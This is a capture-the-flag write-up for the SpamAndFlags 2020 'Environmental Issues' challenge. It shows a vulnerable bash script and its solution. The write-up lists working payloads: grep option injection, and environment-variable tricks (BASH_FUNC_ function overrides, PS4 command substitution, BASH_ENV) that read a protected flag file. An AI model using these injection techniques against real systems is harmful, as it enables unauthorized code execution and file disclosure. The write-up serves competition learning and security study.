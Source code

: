 # SpamAndFlags 2020 - Environmental Issues

## Challenge

Guys, it's 2020. If we don't fix up our environment, we'll never save the globe. Or get enough flags out of this bug-free shell script.

Server: `nc 35.242.189.239 1337`

192+206+213+213+278+415 points, solved the first four (192+206+213+213)

## Solution (broken version)

We get a Python script ([challenge.py](challenge.py)), a shell script ([script.sh](script.sh)) and some other configuration file ([config.json](config.json) and [issues.txt](issues.txt)).

We need to do the following:
1. Create `KEY, VALUE, ARGUMENT` triplets
2. We Python code executes a restricted shell (within a new process), and within the shell sets the `KEY` environment variable to `VALUE` and executes `script.sh ARGUMENT`. So basically `KEY=VALUE script.sh ARGUMENT`
3. We get one point if the `stdout` or `stderr` of the executed process contains the content of `/flag`, which is created randomly before every script execution (`FlagFragment\{[0-9a-f]{36}\}`)
4. If we get enough points, we will receive some flags
5. Unique `KEY`s count only

```bash
#!/usr/bin/env bash

####################################
# THE ENVIRONMENTAL ISSUE DATABASE #
####################################

set -x

if ! test -z "$USE_SED"
then
    line="$(sed -n "/${1:?Missing arg1: name}/p" issues.txt)"
else
    line="$(grep "${1:?Missing arg1: name}" < issues.txt)"
    # For the Regulated version
    # line="$(grep -- "${1:?Missing arg1: name}" < issues.txt)"
fi
echo "$line"

silent() { "$@" &>/dev/null; return "$?"; }

quiet() { bash -c 'for fd in /proc/$$/fd/*
                   do eval "exec ${fd##*/}>&-"
                   done; "$@" &> /dev/null' bash "$@"; }

if ! silent hash imaginary
then
    silent imaginary
    quiet cat flag
fi
```

The first version of the challenge was broken and we could read out the content of `/flag` by abusing the `grep` options in the shell script.

For example, settings the `ARGUMENT` to `-rIeFlagFragment` will print the contents of `/flag`. The `-r` (recursive) option was needed to use the `/flag` file and the `-I` option (exclude binary files) was needed because the remote script terminated when binary files were grep-ed thanks to `-r`.

By setting the `KEY` to 15 different values, we get 4 flags:
- `SaF{NiceJobYouHaveJustKilledAllTheBees🐝StopNowBeforeItIsTooLate!}` from `SaF{NiceJobYouHaveJustKilledAllTheBees\xf0\x9f\x90\x9dStopNowBeforeItIsTooLate!}`
- `SaF{HereIsYourFlagButAtWhatPrice?https://www.youtube.com/watch?v=eROSvnr3QZM}`
- `SaF{🔥UNINTENDED💀ENVIRON🔥MENTAL💀COLLAPSE🔥}` from `SaF{\xf0\x9f\x94\xa5UNINTENDED\xf0\x9f\x92\x80ENVIRON\xf0\x9f\x94\xa5MENTAL\xf0\x9f\x92\x80COLLAPSE\xf0\x9f\x94\xa5}`

## Solution (fixed version)

The fixed version of the challenge did not allow to modify the `grep` options directly, only the arguments (`grep --`).

We could come up with 11 solutions (redefining 9 functions or built-ins and using 2 special envvars):

```python
[
    ["BASH_FUNC_grep%%", "() {  /usr/bin/env cat flag; }", "grep"],
    ["BASH_FUNC_test%%", "() {  /usr/bin/env cat flag; }", "test"],
    ["BASH_FUNC_echo%%", "() {  /usr/bin/env cat flag; }", "echo"],
    ["BASH_FUNC_bash%%", "() {  /usr/bin/env cat flag; }", "bash"],
    ["BASH_FUNC_set%%", "() {  /usr/bin/env cat flag; }", "set"],
    ["BASH_FUNC_return%%", "() {  /usr/bin/env cat flag; }", "return"],
    ["BASH_FUNC_exec%%", "() {  /usr/bin/env cat flag; }", "exec"],
    ["BASH_FUNC_eval%%", "() {  /usr/bin/env cat flag; }", "eval"],
    ["BASH_FUNC_cat%%", "() {  /usr/bin/env cat flag > /proc/$PPID/fd/1; }", "cat"],
    ["PS4", "$(/usr/bin/env cat flag)", "test"],
    ["BASH_ENV", "flag", "test"]
]
```

Unfortunately, there are four other ways:
- Setting `USE_SED` and command execution with `sed`
- Using `GREP_OPTIONS`
- Redefining `hash` and redefining `return` within the redefined `hash`
- Redefining `_command_not_found_handle` (this one really does exist)

## Other write-ups

- <https://ctftime.org/task/11524>

